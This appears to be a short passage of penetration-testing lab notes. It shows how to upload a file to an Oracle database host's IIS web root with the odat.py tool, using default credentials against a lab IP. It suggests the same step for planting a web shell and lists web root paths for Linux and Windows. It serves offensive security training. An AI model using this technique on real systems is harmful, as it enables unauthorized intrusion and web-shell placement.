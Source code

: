 - another option is to upload web shell to the target, but this requires to run web server
- we need to know location of the root directory for the webserver
- or have to know what kind of system we are dealing with
- Linux ⇒ /var/www/html
- Windows ⇒ C:\inetpub\wwwroot

### **Oracle RDBMS - File Upload**

```python
[!bash!]$ echo "Oracle File Upload Test" > testing.txt
[!bash!]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```y
